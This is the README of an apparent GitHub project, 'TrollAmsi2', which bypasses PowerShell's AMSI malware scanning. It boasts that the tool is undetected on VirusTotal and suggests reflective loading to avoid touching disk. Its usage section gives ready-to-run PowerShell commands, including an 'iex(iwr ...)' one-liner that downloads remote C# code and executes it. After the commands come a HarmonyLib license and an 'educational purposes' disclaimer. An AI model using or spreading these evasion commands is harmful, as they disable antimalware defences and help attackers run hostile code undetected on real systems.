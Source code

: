 # TrollAmsi2

*Dll method*\
Bypass powershell amsi \
Both 0Harmony.dll and the compiled dll are 0/72 on virus total and clean on hybrid-analysis \
If you are concerned with dropping on disk, ofcourse you can reflectively load
  
## Usage 
```
#DLL method 
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()

#powershell one liner
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI2/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
